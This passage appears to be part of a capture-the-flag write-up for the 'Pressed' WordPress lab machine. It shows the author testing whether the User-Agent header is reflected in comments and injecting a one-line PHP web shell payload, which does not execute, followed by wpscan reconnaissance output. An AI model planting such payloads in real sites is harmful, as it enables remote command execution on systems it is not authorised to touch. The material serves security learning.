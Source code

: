 We can see our request from Mozilla, and our wpscan’s request. That’s the user agent field. If we capture our own POST request we can see they are identical:

![image.png]({{ site.baseurl }}/assets/pressed/image%203.png)

Let’s try changing our User agent and see if the change will be reflected on the site:

![image.png]({{ site.baseurl }}/assets/pressed/image%204.png)

Tip: remember to change your comment to something unique, as the site won’t let you repeat the same comment:

![image.png]({{ site.baseurl }}/assets/pressed/image%205.png)

We see our user-agent string reflected on the site. Let’s see if we can use this to achieve RCE. Let’s put PHP code:

```bash
<?php system($_GET['cmd']); ?>
```

![image.png]({{ site.baseurl }}/assets/pressed/image%206.png)

Looks like it was not executed.

At this point, our wpscan has finished scanning as well:

```bash
Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://pressed.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://pressed.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://pressed.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://pressed.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.9 identified (Insecure, released on 2022-01-25).
 | Found By: Rss Generator (Passive Detection)
 |  - http://pressed.htb/index.php/feed/, <generator>https://wordpress.org/?v=5.9</generator>
 |  - http://pressed.htb/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.9</generator>

[+] WordPress theme in use: retrogeek
```